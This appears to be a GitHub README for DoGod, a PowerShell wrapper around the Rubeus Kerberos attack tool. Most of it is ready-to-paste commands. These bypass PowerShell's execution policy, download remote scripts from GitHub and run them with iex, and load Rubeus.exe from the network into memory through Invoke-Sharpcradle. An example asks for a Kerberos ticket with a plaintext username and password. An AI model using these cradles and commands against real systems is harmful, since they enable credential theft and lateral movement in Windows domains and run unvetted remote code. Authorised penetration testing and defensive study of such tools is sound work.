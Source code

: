 # DoGod
*Rubeus wrapped in PowerShell*

import-module ./DoGod.ps1 ---> Loads Rubeus

DogGod ---> Rubeus native help menu

Use Onscreen Instructions for DoGod syntax!

Way 1:
IEX:

Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/IAMinZoho/DoGod/main/DoGod.ps1'))

Way 2 (for running updated version : v2.2.0):

Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/IAMinZoho/OFFSEC-PowerShell/main/Invoke-Sharpcradle.ps1'))

Rubeus Commands:
Invoke-Sharpcradle -Uri https://raw.githubusercontent.com/IAMinZoho/DoGod/main/Rubeus.exe

or,

Invoke-Sharpcradle -Uri https://raw.githubusercontent.com/IAMinZoho/DoGod/main/Rubeus.exe -Argument1 asktgt /user:Bob /password:user@123


Rubeus.exe: https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
